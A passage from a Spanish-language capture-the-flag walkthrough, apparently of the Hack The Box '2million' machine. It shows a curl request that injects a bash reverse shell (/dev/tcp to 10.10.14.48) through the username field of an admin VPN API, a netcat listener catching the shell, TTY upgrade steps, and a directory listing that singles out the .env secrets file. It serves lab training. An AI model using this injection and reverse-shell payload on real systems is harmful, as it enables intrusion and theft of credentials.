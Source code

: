 ```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; bash -c \"bash -i >& /dev/tcp/10.10.14.48/1234 0>&1\" #"}'
```

Escuchamos por **netcat**.

```
nc -lnvtp 1234

listening on [any] 1234 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.181.190] 50890
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

Una vez nos llega la reverse shell, vamos a hacer el tratamiento de la TTY para trabajar más comodamente (esto es opcional pero bastante recomendable).

```
script /dev/null -c bash
```

Pulsamos `ctrl`+`z`

```
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Vamos a empezar listando los archivos del directorio de la web.

```
ls -la

total 56
drwxr-xr-x 10 root root 4096 Sep 29 11:00 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Sep 29 11:00 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Vemos el archivo `.env`, donde se almacenan las variables de entorno (normalmente claves de base de datos u otros datos sensibles).
